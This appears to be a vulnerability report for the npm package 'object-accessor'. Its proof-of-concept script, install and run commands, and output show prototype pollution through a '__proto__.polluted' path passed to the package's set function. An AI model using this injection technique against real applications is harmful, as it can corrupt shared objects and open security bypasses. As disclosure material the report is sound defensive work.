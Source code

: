 # Description

Prototype Pollution in object-accessor

# Proof of Concept

1. Create the following PoC file:

```
// poc.js
var objectAccessor = require("object-accessor")
var obj = {}
console.log("Before : " + {}.polluted);
objectAccessor.set(obj,"__proto__.polluted","Yes! Its Polluted");
console.log("After : " + {}.polluted);
```

2. Execute the following commands in terminal:

```
npm i object-accessor # Install affected module
node poc.js #  Run the PoC
```

3. Check the Output:
```
Before : undefined
After : Yes! Its Polluted
```
